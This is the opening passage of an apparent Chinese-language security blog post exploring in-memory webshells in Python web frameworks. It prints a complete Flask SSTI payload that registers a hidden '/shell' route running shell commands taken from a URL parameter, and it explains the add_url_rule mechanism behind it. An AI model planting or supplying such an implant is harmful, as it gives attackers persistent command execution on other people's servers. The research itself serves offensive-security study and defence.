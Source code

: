 ```yaml
---
title: "理想场景下的Python Web内存马探索"
date: 2024-07-10T13:00:00+08:00
tags: ["内存马", "python", 'django', 'tornado', 'flask', 'sanic']
---
```


在刚开始寻找Python Web内存马资料的时候，发现除了Flask SSTI之外，找不到除了这个场景、框架之外的其他资料，或许确实在这个条件下的利用场景过于稀少，并且在有RCE的情况下更多的考虑也并不是获取一个webshell。

所以在抽象出来最理想的场景下（任意代码执行），简单探讨了一下在三个常见Python Web框架中种植内存马的方法，除了文中提到的思路还有一些其他的方法，比如可以在 `Flask` 中操作各种reqeust hook函数来实现，或者在 `Tornado` 直接操作 `wildcard_router`等，原理上来说都大同小异。

## Flask

### 老版本Flask内存马种植方法

在网上针对Flask内存马的探讨，均在SSTI场景下，并且payload都相同，格式化后代码如下

```python
url_for.__globals__['__builtins__']['eval'](
	"app.add_url_rule(
		'/shell', 
		'shell', 
		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
	)",
	{
		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
		'app':url_for.__globals__['current_app']
	}
)
```

在Flask中所有定义的路由都会使用一个装饰器 `app.route`，而这个装饰器就是调用了 `add_url_rule`

```python
@setupmethod
def route(self, rule: str, **options: t.Any) -> t.Callable[[T_route], T_route]:
	def decorator(f: T_route) -> T_route:
		endpoint = options.pop("endpoint", None)
		self.add_url_rule(rule, endpoint, f, **options)
		return f

	return decorator
```

所以在payload中，直接调用了Flask中的 `add_url_rule` 函数来动态增加一条路由实现内存马。然而在最新版本的Flask中，如果直接使用这个payload会发现将抛出一个异常

![](/img/python-web-memory-shell/Pasted%20image%2020240606150122.png)

### AssertionError出现原因
